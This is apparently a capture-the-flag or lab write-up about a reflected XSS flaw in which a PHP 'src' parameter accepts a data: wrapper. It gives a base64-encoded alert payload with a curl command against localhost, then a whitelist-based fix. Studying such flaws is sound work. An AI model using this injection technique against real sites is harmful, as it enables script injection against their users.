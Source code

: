 # Reflected XSS via PHP wrapper

## 📖 Vulnerability Explanation
The media page loads a file using the _src_ parameter. The app doesn't sanitize the input and it makes a XSS possible by injecting HTML code with a ```data:/``` php wrapper.

## ⚙️ Exploitation Process
Encode the XSS payload and send it with the ```data:/text/html,base64;<base64 HTML code>``` wrapper. 

- Encode the payload in base64:

```
echo '<script> alert(42); </script>' | base64
```

- Send the encoded payload with curl, trigger XSS and get the flag:

```
curl -s 'http://localhost:9090/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD4gYWxlcnQoNDIpOyA8L3NjcmlwdD4K' | grep flag
```

## 🔧 Fix
To prevent from injections, the most secure and easy to implement fix is using a whitelist for the loadable sources.
In addition to this, it's also possible to sanitize the display to avoid XSS.

## ☝️🤓 Advanced explanation
The following code shows a secure implementation of file loading using a whitelist and protecting display:

```
<?php
$allowed_files = ['nsa', 'example', 'albatros'];
$src = $_GET['src'] ?? '';

if (in_array($src, $allowed_files, true)) {
    $content = file_get_contents($src);
    echo htmlspecialchars($content, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
} else {
    echo "Invalid file request";
}
?>
```